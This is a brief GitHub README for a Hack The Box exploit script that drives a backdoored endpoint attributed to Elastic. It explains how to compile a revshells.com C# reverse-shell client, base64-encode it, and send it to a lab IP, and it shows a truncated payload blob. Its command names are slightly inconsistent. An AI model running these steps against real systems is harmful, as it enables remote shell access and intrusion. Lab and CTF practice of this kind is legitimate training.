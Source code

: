 # Naplistener script
A simple script that I made for a `HTB` machine that exposes an infected endpoint with `Elastic`

## Usage

```shell-session
$python3 naplistener.py https://10.10.10.10 -c '<some-64-encoded-command-here>'
```


To make it work:
- Go to [https://revshells.com](https//revshells.com), select `C# TCP Client`
- Modify the code adding a `namespace` and a `Run` class
- Install `Mono C# Compilter` (`m̀cs`) with `sudo apt install mono-devel -y`
- Compile the `payload.cs` file from `Revshells` with `mcs -out:payload.exe payload.cs`
- Then run `base64 -w0 payload.exe`, copy the payload and paste it as `command` to this script:

```shell-session
$ python3 naplistener_exploit.py -t https://10.10.10.10 -c 'TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAATAEDAAAAAAAAAAAAAAAAAOAAAgELAQgA<SNIP>AAAAAAAAAAAAA'
```
